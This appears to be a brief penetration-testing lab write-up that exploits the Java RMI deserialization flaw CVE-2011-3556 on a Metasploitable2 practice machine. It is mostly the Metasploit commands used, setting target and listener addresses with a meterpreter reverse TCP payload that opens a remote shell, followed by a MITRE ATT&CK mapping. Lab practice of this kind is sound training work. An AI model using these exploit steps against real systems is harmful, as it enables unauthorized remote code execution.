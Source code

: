 # Java RMI Exploit (CVE-2011-3556)

## Summary
This exploit targets an insecure RMI registry on Metasploitable2 that accepts malicious serialized Java objects. Successful exploitation allows remote code execution.

## Tools Used
- Metasploit
- Payload: java/meterpreter/reverse_tcp

## Steps Performed

1. Launched Metasploit:
   ```bash
   msfconsole

2. Loaded module:
    use exploit/multi/misc/java_rmi_server

3. Set options:
    set RHOSTS 192.168.6.3
    set RPORT 1099
    set LHOST 192.168.6.4
    set LPORT 4445
    set PAYLOAD java/meterpreter/reverse_tcp
    run

4. Get meterpreter session:
    See screenshot

# Outcome

-Remote shell as RMI user(low privilege)

# CVE details

CVE: CVE-2011-3556

Description: Insecure deserialization in RMI registry

# MITRE ATT&CK Mapping

T1210: Exploitation of Remote Services

T1059.005: Command and Scripting Interpreter: Java